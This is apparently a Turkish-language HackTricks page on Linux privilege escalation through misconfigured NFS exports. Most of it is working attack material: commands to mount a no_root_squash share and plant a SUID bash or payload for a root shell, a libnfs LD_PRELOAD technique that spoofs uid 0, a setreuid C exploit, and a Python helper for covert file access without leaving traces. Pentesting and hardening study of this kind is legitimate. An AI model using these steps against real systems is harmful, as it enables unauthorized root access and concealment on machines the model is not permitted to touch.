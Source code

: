 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


_ **/etc/exports** _ dosyasını okuyun, eğer **no\_root\_squash** olarak yapılandırılmış bir dizin bulursanız, o dizine **istemci olarak erişebilir** ve o dizin içinde **yerel makinenin root'uymuş gibi yazabilirsiniz.**

**no\_root\_squash**: Bu seçenek, istemcideki root kullanıcısına NFS sunucusundaki dosyalara root olarak erişim yetkisi verir. Bu da ciddi güvenlik sorunlarına yol açabilir.

**no\_all\_squash:** Bu, **no\_root\_squash** seçeneğine benzer, ancak **root olmayan kullanıcılara** uygulanır. Hayal edin, nobody kullanıcısı olarak bir shell'e sahipsiniz; /etc/exports dosyasını kontrol ettiniz; no\_all\_squash seçeneği mevcut; /etc/passwd dosyasını kontrol edin; root olmayan bir kullanıcıyı taklit edin; o kullanıcı olarak bir suid dosyası oluşturun (nfs kullanarak montaj yaparak). SUID'yi nobody kullanıcısı olarak çalıştırın ve farklı bir kullanıcıya dönüşün.

# Yetki Yükseltme

## Uzaktan Sömürü

Bu güvenlik açığını bulduysanız, bunu sömürebilirsiniz:

* **O dizini** bir istemci makinesinde **montajlayarak**, ve **root olarak montajlanmış klasöre** **/bin/bash** ikili dosyasını kopyalayarak ve ona **SUID** hakları vererek, ve **kurban** makineden o bash ikili dosyasını çalıştırarak.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **O dizini** bir istemci makinesine **monte etmek** ve **root olarak** monte edilen klasöre SUID iznini kötüye kullanacak derlenmiş yükümüzü kopyalamak, ona **SUID** hakları vermek ve **kurban** makineden o ikili dosyayı çalıştırmak (burada bazı [C SUID yüklerini](payloads-to-execute.md#c) bulabilirsiniz).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
Not edin ki eğer **makinenizden kurban makinesine bir tünel oluşturabiliyorsanız, bu ayrıcalık yükseltmesini istismar etmek için Uzaktan versiyonu kullanabilirsiniz**.\
Aşağıdaki hile, dosya `/etc/exports` **bir IP gösteriyorsa** geçerlidir. Bu durumda **uzaktan istismarı kullanamayacaksınız** ve **bu hileyi istismar etmeniz gerekecek**.\
İstismarın çalışması için bir diğer gerekli şart, **`/etc/export` içindeki dışa aktarmanın** **`insecure` bayrağını kullanmasıdır**.\
\--_Eğer `/etc/export` bir IP adresi gösteriyorsa bu hilenin çalışıp çalışmayacağından emin değilim_--
{% endhint %}

## Basic Information

Senaryo, yerel bir makinede monte edilmiş bir NFS paylaşımını istismar etmeyi içerir ve NFSv3 spesifikasyonundaki bir açığı kullanarak istemcinin uid/gid belirtmesine olanak tanır, bu da yetkisiz erişimi mümkün kılabilir. İstismar, NFS RPC çağrılarını sahtelemek için kullanılan [libnfs](https://github.com/sahlberg/libnfs) kütüphanesini kullanmayı içerir.

### Compiling the Library

Kütüphane derleme adımları, çekirdek sürümüne bağlı olarak ayarlamalar gerektirebilir. Bu özel durumda, fallocate sistem çağrıları yorum satırı haline getirilmiştir. Derleme süreci aşağıdaki komutları içerir:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Exploit'i Gerçekleştirme

Exploit, root yetkilerini yükselten ve ardından bir shell çalıştıran basit bir C programı (`pwn.c`) oluşturmayı içerir. Program derlenir ve elde edilen ikili dosya (`a.out`), RPC çağrılarında uid'i sahte olarak göstermek için `ld_nfs.so` kullanarak suid root ile paylaşıma yerleştirilir:

1. **Exploit kodunu derleyin:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Exploit'i paylaşımda yerleştirin ve uid'i sahte göstererek izinlerini değiştirin:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Root yetkilerini kazanmak için exploit'i çalıştırın:**
```bash
/mnt/share/a.out
#root
```

## Bonus: NFShell ile Gizli Dosya Erişimi
Root erişimi elde edildikten sonra, sahipliği değiştirmeden NFS paylaşımı ile etkileşimde bulunmak için (iz bırakmamak için) bir Python betiği (nfsh.py) kullanılır. Bu betik, erişilen dosyanın uid'ini eşleştirerek, paylaşımda dosyalarla izin sorunları olmadan etkileşimde bulunmayı sağlar:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
Çalıştırın gibi:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}

